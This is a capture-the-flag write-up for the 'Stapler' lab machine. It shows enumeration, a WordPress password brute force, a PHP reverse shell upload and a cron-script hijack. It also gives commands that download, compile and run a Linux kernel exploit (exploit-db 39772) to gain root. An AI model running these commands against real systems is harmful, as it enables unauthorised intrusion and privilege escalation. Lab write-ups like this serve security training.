





# Stapler


## Enumeration

### `netdiscover`


`netdiscover` is an active/passive ARP reconnaissance tool that allows us to identify which machines in our local network. 

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Stapler-full-port-scan.txt 192.168.43.197
PORT      STATE  SERVICE     VERSION
20/tcp    closed ftp-data
21/tcp    open   ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.43.53
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 81:21:ce:a1:1a:05:b1:69:4f:4d:ed:80:28:e8:99:05 (RSA)
|   256 5b:a5:bb:67:91:1a:51:c2:d3:21:da:c0:ca:f0:db:9e (ECDSA)
|_  256 6d:01:b7:73:ac:b0:93:6f:fa:b9:89:e6:ae:3c:ab:d3 (ED25519)
53/tcp    open   domain      dnsmasq 2.75
| dns-nsid: 
|_  bind.version: dnsmasq-2.75
80/tcp    open   http        PHP cli server 5.5 or later
|_http-title: 404 Not Found
123/tcp   closed ntp
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
666/tcp   open   doom?
| fingerprint-strings: 
|   NULL: 
|     message2.jpgUT 
|     QWux
|     "DL[E
|     #;3[
|     \xf6
|     u([r
|     qYQq
|     Y_?n2
|     3&M~{
|     9-a)T
|     L}AJ
|_    .npy.9
3306/tcp  open   mysql       MySQL 5.7.12-0ubuntu1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.12-0ubuntu1
|   Thread ID: 9
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, LongPassword, FoundRows, Speaks41ProtocolOld, SupportsCompression, SupportsLoadDataLocal, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, LongColumnFlag, ConnectWithDatabase, ODBCClient, DontAllowDatabaseTableColumn, SupportsTransactions, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: .\x0COs\x11)\x12JU	i^\x06\x11\x05aF\x17EV
|_  Auth Plugin Name: mysql_native_password
12380/tcp open   http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

Host script results:
|_clock-skew: mean: 59m58s, deviation: 0s, median: 59m57s
|_nbstat: NetBIOS name: RED, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.9-Ubuntu)
|   Computer name: red
|   NetBIOS computer name: RED\x00
|   Domain name: \x00
|   FQDN: red
|_  System time: 2021-01-07T11:01:45+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-01-07T11:01:45
|_  start_date: N/A
```

There is a bunch of open ports such as **21** (FTP), **22** (SSH), **53** (DNS), **80** (HTTP), **139** (SMB), **3306** (MySQL) and also **12380** (HTTP).

### `nmap` vuln scan



Among the vulnerabilities reported by `nmap`, many are about DOS attacks (like Slowloris). However, However, one flaw stands out: Samba seems vulnerable to remote code execution (`CVE-2009-3103`).

### `nmap` OS detection

Nevertheless, if we enable OS detection during the scan, we can see the target is **Linux server** so it might be not vulnerable to the CVE we saw earlier: 


### HTTP (Port 80)


#### `gobuster`


Nothing looks interesting yet. Let's check out other ports.

#### `nikto`


### FTP (port 21)

We can log in as `anonymous` within `ftp`:


During this first reconnaissance phase, we identified 3 potential users:

1. **Harry**
2. **Elly**
3. **John**

### SMB (Port 139)

```bash
$ smbclient -L //192.168.43.197/ -U '%'
	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	kathy           Disk      Fred, What are we doing here?
	tmp             Disk      All temporary files should be stored here
	IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Two additional users:
- **Kathy**
- **Fred**

#### kathy

```bash
$ smbclient //192.168.43.197/kathy -U '%'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jun  3 18:52:52 2016
  ..                                  D        0  Mon Jun  6 23:39:56 2016
  kathy_stuff                         D        0  Sun Jun  5 17:02:27 2016
  backup                              D        0  Sun Jun  5 17:04:14 2016

                19478204 blocks of size 1024. 16395604 blocks available
smb: \> cd kathy_stuff
smb: \kathy_stuff\> ls
  .                                   D        0  Sun Jun  5 17:02:27 2016
  ..                                  D        0  Fri Jun  3 18:52:52 2016
  todo-list.txt                       N       64  Sun Jun  5 17:02:27 2016

                19478204 blocks of size 1024. 16395600 blocks available
smb: \kathy_stuff\> get todo-list.txt
getting file \kathy_stuff\todo-list.txt of size 64 as todo-list.txt (3.5 KiloBytes/sec) (average 3.5 KiloBytes/sec)
smb: \kathy_stuff\> cd ..
smb: \> cd backup\
smb: \backup\> ls
  .                                   D        0  Sun Jun  5 17:04:14 2016
  ..                                  D        0  Fri Jun  3 18:52:52 2016
  vsftpd.conf                         N     5961  Sun Jun  5 17:03:45 2016
  wordpress-4.tar.gz                  N  6321767  Mon Apr 27 19:14:46 2015

                19478204 blocks of size 1024. 16395600 blocks available
smb: \backup\> get vsftpd.conf
getting file \backup\vsftpd.conf of size 5961 as vsftpd.conf (363.8 KiloBytes/sec) (average 173.1 KiloBytes/sec)
smb: \backup\> get wordpress-4.tar.gz
getting file \backup\wordpress-4.tar.gz of size 6321767 as wordpress-4.tar.gz (28984.0 KiloBytes/sec) (average 25018.2 KiloBytes/sec)
```


### DNS (port 53)

> IP changed to `192.168.1.106` because I restarted the VM

Requesting DNS zone transfer:


We see a bunch of new IP addresses associated with domain names.

```bash
$ cat services/53-dns.txt | grep A | grep -E "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b"
k.root-servers.net.     595045  IN      A       193.0.14.129
l.root-servers.net.     595045  IN      A       199.7.83.42
m.root-servers.net.     343564  IN      A       202.12.27.33
b.root-servers.net.     188945  IN      A       199.9.14.201
c.root-servers.net.     582908  IN      A       192.33.4.12
d.root-servers.net.     595045  IN      A       199.7.91.13
e.root-servers.net.     595045  IN      A       192.203.230.10
f.root-servers.net.     595045  IN      A       192.5.5.241
g.root-servers.net.     595045  IN      A       192.112.36.4
h.root-servers.net.     595045  IN      A       198.97.190.53
i.root-servers.net.     595045  IN      A       192.36.148.17
a.root-servers.net.     340541  IN      A       198.41.0.4
j.root-servers.net.     595045  IN      A       192.58.128.30
```

I saved these new IP addresses into a file and launched a `nmap` scan on each of them:

```bash
for IP in $(cat IP.txt); do nmap -sV -oN scan/$IP.txt $IP; done
```

Unfortunately, each of these IP addresses only runs DNS on port 53 ...

### HTTP•S (Port 12380)


If we check the sources we can see another user (**Tim**):



#### `nikto`


Unlike port 80, this nikto scan returns us SSL info and plenty of interesting information such as:

- `/robots.txt` file with following entries:
    + `/blogblog`
    + `/admin112233`
- a `/phpmyadmin` folder

#### gobuster

As we can see `gobuster` doesn't get any response if we attack the target using HTTP. But if we use set target's URL as using HTTPS, it works.

##### HTTP


##### HTTPS

> I had to to reduce the number of threads (default 10). Otherwise, we're getting too many errors.

```bash
$ gobuster dir -u https://192.168.1.106:12380 -w /usr/share/dirb/wordlists/common.txt -o services/12380-https.txt -k -t 4
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://192.168.1.106:12380
[+] Threads:        4
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/07 17:46:17 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/announcements (Status: 301)
/index.html (Status: 200)
/javascript (Status: 301)
/phpmyadmin (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/07 17:46:23 Finished
=============================================================== 
```

#### `/announcements`


Another potential user: **Abby**.

#### `/blogblog`


**John Smith** is the author of all posts!

First, I took a look at HTTP Response Headers to see if we can get any information:


Something doesn't look right here...

Then I ran `gobuster`:


The site takes a while to load, so I decided to check the sources:


We can notice that's a **WordPress** website version `4.2.1`.

#### Wordpress

##### `gobuster`


##### `wpscan`

Wordpress Security Scanner alias `wpscan` can help us attack this website.

- Enumerating users:

```bash
$ wpscan --url https://192.168.1.106:12380/blogblog/ --disable-tls-checks --enumerate u
```


- Bruteforce passwords:

```bash
$ wpscan --url https://192.168.1.106:12380/blogblog/ --disable-tls-checks --password-attack wp-login -U wp-users.txt -P /usr/share/wordlists/seclists/Passwords/darkweb2017-top10000.txt -t 100
```


Let's try to lo in:


We're in:



Our goal to gain access to target's shell. In order to do that, we can upload a malicious php file via wordpress.

Among the users for whom we managed to get their passwords, only `john` has a different dashboard and seems to be the admin: 


### Reverse shell (uploading malicious plugin)

First and foremost, let's run a listener:

```bash
$ nc -lnvp 1234
```

We'll try to upload a [tiny PHP reverse shell](https://gist.github.com/rshipp/eee36684db07d234c1cc) in WordPress plugins:


We specify `anonymous` as username and password:


`shell.php` is in [https://192.168.1.106:12380/blogblog/wp-content/uploads/](https://192.168.1.106:12380/blogblog/wp-content/uploads/):


If we click on it, PHP is executed by the web server and we got a shell:


### Privesc

#### Method #1: `cron-logrotate.sh`

[`linpeas.sh`](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) reported an interesting file that we can overwrite: `/usr/local/sbin/cron-logrotate.sh`


The file contains nothing interesting but it's owned by root. If this script is executed by root via a cronjob we can put a reverse shell payload in it:



It worked:


#### Method #2: .bash_history

If we inspect `.bash_history` files of each user in `/home`, we can identify these two lines:


`thisimypassword` is JKanode's password and `JZQuyIN5` is peter's password.

If we log in as **peter** we can see that he can run `sudo` for every program. So if we run `sudo su` we can privesc to `root`


#### Method #3: kernel exploit


The target machine is running **Ubuntu 16.04** with a Linux kernel version `4.4.0-21-generic`.

Since it's an old box, we can easily bet on kernel exploits. Indeed:


```bash
$ searchsploit -m linux/local/39772.txt                                            
  Exploit: Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation
      URL: https://www.exploit-db.com/exploits/39772                                                                 
     Path: /usr/share/exploitdb/exploits/linux/local/39772.txt                                                       
File Type: C source, ASCII text, with CRLF line terminators
                                                          
Copied to: /mnt/hgfs/shared/Stapler/39772.txt 
```

If we take a look at `39772.txt`, we see that there is a way to exploit the kernel which can lead us to code execution by root.

Steps to reproduce on the target machine:

```bash
$ cd /tmp/
$ wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
$ unzip 39772.zip
$ cd 39772/
$ tar xvf exploit.tar
$ cd ebpf_mapfd_doubleput_exploit
$ chmod +x compile.sh
$ ./compile.sh 
$ ./doubleput
./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
root@red:/tmp/39772/ebpf_mapfd_doubleput_exploit# 
```

___

- Final flag:

```bash
root@red:~# cat flag.txt
cat flag.txt
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```

___

## Useful links

- [Exploit Database's Binary Exploits](https://github.com/offensive-security/exploitdb-bin-sploits/)